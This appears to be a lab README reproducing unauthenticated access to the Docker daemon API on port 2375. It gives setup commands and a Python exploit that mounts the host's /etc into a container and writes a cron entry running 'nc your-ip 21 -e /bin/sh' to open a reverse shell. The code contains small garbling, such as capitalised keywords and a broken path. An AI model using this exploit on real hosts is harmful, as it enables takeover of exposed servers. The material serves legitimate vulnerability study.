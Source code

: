 # docker daemon api Unauthorized Access Vulnerability

Reference link:

- http://www.loner.fm/drops/#!/drops/1203.%E6%96%B0%E5%A7%BF%E5%8A%BF%E4%B9%8BDocker%20Remote%20API%E6 %9C%AA%E6%8E%88%E6%9D%83%E8%AE%BF%E9%97%AE%E6%BC%8F%E6%B4%9E%E5%88%86%E6%9E %90%E5%92%8C%E5%88%A9%E7%94%A8

## vulnerability environment

Compile and start the vulnerability environment:

```
Docker-compose build
Docker-compose up -d
```

After the environment is started, it will listen to port 2375.

## Vulnerability recurrence

The method is that we can start a container at will, and mount the `/etc` directory of the host to the container, so that we can read and write files at will. We can write the command to the crontab configuration file to bounce the shell.

```python
Import docker

Client = docker.DockerClient(base_url='http://your-ip:2375/')
Data = client.containers.run('alpine:latest', r'''sh -c "echo '* * * * * /usr/bin/nc your-ip 21 -e /bin/sh' >> /tmp /etc/crontabs/root" ''', remove=True, volumes={'/etc': {'bind': '/tmp/etc', 'mode': 'rw'}})
```

Write the crontab file and successfully bounce the shell:

![](1.png)